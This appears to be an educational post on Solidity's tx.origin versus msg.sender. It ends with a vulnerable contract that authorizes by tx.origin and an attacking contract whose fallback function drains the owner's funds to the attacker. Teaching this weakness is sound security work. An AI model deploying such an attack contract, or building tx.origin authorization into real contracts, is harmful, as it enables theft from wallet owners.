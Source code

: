 ## Tx.Orign Vs Msg.Sender (Attack Scenario)

tx.origin and msg.sender are global variables used in solidity for wrting smart contracts. while tx.origin refers to the originating account that started a transaction, msg.sender refers to the immediate address that invokes a function.

In solidity, there are two kinds of account, Externally owned accounts and contract account. Externally owned Accounts are such accounts created from wallets like metamask that has a private key associated with them, while contract accounts refer the address of a deployed smart contract, such accounts have no private key assigned to them.

tx.origin will always refer to an Externally owned account (EOA), since only an EOA can initiate a transaction while msg.sender can both refer to an EOA and also a contract address based on the calling context.

As per usage, tx.origin and msg.sender can point to totally different address based on the context used. for example when an account A calls a contract B and contract B calls another contract C.
in the calling context, the msg.sender for contract C will be Contract B's address while the tx.origin of contract C will be the original account A. whewww such a wrap!!

This pose a problem when use for authorization purposes as irrespective fo the calling contract, tx.origin will always refer to the address of the account that initiated the transaction and this can be exploited as seen in the contract below.

```

contract MyContract {

    address owner;

    function MyContract() public {
        owner = msg.sender;
    }

    function sendTo(address receiver, uint amount) public {
        require(tx.origin == owner);
        (bool success, ) = receiver.call.value(amount)("");
        require(success);
    }

}

contract AttackingContract {

    MyContract myContract;
    address attacker;

    function AttackingContract(address myContractAddress) public {
        myContract = MyContract(myContractAddress);
        attacker = msg.sender;
    }

    function() public {
        myContract.sendTo(attacker, msg.sender.balance);
    }

}
```